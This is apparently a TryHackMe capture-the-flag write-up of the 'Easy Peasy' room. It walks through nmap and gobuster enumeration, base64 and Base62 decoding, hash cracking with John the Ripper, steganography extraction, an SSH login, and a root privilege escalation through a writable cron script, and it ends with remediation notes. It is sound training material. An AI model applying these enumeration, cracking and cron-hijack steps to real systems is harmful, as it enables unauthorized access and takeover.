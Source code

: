 # Lab Report - Easy Peasy


# Overview 
- **Category**: Web
- **Difficulty**: Easy
- **Platform**: Linux
- **Link**: https://tryhackme.com/room/easypeasyctf 
- **Tags**: #enumeration #privesc 

## Challenge Description 
> **- Basic boot-to-root machine.** 

## Resolution Summary 
>**We enumerated the machine, discovered hidden web directories and decoded multiple encodings/steganography to retrieve flags and credentials, cracked a webpage hash to reveal a password, and used extracted credentials to connect over SSH. After auditing scheduled tasks we found a root-run cron script with insecure permissions, modified it to spawn a root shell, achieving full compromise.**

# Information Gathering 
### Active Reconnaissance : 
- **We started by performing an Nmap scan on the target, we also scanned for services' versions to look early on for low hanging fruits.
```bash
nmap -sV 10.10.132.17 
```

- **Here are the results : 
```bash
#Results
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.16.1
```

- **Just in case, we added the `-p-` flag to the Nmap scan, which proved to be useful: 
```bash
#Results 
80/tcp    open  http    nginx 1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
```

## HTTP (80)
- **First we ran GoBuster to look for hidden directories, as there was not much on the web page at first sight (default Nginx welcome page). 
- **For the first one : 
```bash
gobuster dir -u 10.10.132.17 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 14
```

- **We uncovered the following directory : 
```bash
#Results
/hidden               (Status: 301)
```

- **There we found an image. We uploaded it and ran exiftool to find any hints in the picture's metadata.  
```bash
exiftool ./lost-places-http-80-hidden.jpg 
```
	- Unfortunatly, we did not find anything.

- **We attempted again GoBuster, but this time on the hidden directory : 
```bash
gobuster dir -u 10.10.132.17/hidden -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 14
```

- **When inspecting the Source page, we found a hidden string that seemed to be encoded in base64 :
```html
<p hidden>ZmxhZ3tmMXJzN19mbDRnfQ==</p>
```

- **We decoded the hidden string using CyberChef and we got the first flag.
	- **`flag{f1rs7_fl4g}`**

## HTTP (65524)
- **For the second HTTP server, we were also greeted with the default Apache the welcome page.
- **However, upon inspecting the Source Page, we found a flag hiding in plain sight: 
	- **`flag{9fdafbd64c47471a8f54cd3fc64cd312}`**

- **Similarly to what has been done before, we also started here with GoBuster: 
```bash
gobuster dir -u http://10.10.132.17:65524 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 14 -x php,txt
```
- **And we found a `robots.txt` file that exposed a user agent, we used it and ran GoBuster again : 
```bash
gobuster dir -u http://10.10.132.17:65524 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 14 -a "a18672860d0510e5ab6699730763b250"
```
	- We did not find anything.

- **However, the user-agent ended up being an md5 hash that we cracked online to get a flag:
	- **`flag{1m_s3c0nd_fl4g}`**

- **Another available option was to curl the web page used that user-agent : 
```bash
curl -A "a18672860d0510e5ab6699730763b250" http://10.10.132.17:65524
```

- **As a result, we discovered a strange string : `ObsJmP173N2X6dOrAgEAL0Vu`, which we attempted to decode. 
- **It happened to be encoded in Base62, decoding it (with CyberChef) gave us a new directory : `/n0th1ng3ls3m4tt3r`, which is another flag:
	- **`/n0th1ng3ls3m4tt3r`**

- **We came across a web page, we investigated the Source Page as usual and found what seemed to be a hash : `940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81`, which we attempted to crack. We will use JTR : 
```bash
john --wordlist=/home/kali/Downloads/easypeasy_1596838725703.txt hash.txt
```
	- This gave us a good idea on what format the hash could be (we must specify it next).

```bash
john --wordlist=/home/kali/Downloads/easypeasy_1596838725703.txt hash.txt -format=gost
```

- **We got a password :
	- **`mypasswordforthatjob`**

- **We also extracted the binary code picture from the directory`/n0th1ng3ls3m4tt3r` and used `stegseek` to find data that was hidden inside the picture (using Steganography) :
```bash
stegseek binarycodepixabay.jpg /home/kali/Downloads/easypeasy_1596838725703.txt 
```

- **We found a username and a password in binary code, which we decoded to obtain the following credentials (to test on the SSH server) :
	- **`boring:iconvertedmypasswordtobinary`**

- **We connect over SSH using 
```bash
ssh boring@10.10.132.17 -p6498
```

- **We found the `user.txt` flag, which needed to be decoded using ROT13 on CyberChef.**
	- **`flag{n0wits33msn0rm4l}`**
# Privilege Escalation 
- **Upon inspecting usual privesc attack vectors, we found a vulnerable cronjob that was running as root. 
- **We found the binary attached to the cronjob: 
```bash
find / -name ".mysecretcronjob.sh" 2>/dev/null
```

- **We edited the previous binary to spawn a shell as root once the cronjob is executed: 
```bash
/bin/bash -i
```

- **And we make our way through root and read the root.txt flag.**
# Trophy 
**User.txt → `flag{n0wits33msn0rm4l}`**
**Root.txt → `flag{63a9f0ea7bb98050796b649e85481845}`**

# Remediation Summary
- **World-writable binaries in root owned cronjobs**: Ensure cron jobs and their scripts/binaries are owned by root and not writable by others (strict permissions).
- **Credentials hiding in images**:Remove credentials and sensitive data from web content and images; store secrets securely.

# Lessons Learned
- **Recursively using GoBuster on discovered hidden directories can be useful. 
- **Identify the hash algorithm/format** before cracking to save time.
- **Test different user-agents/headers**: servers may reveal different content based on them.
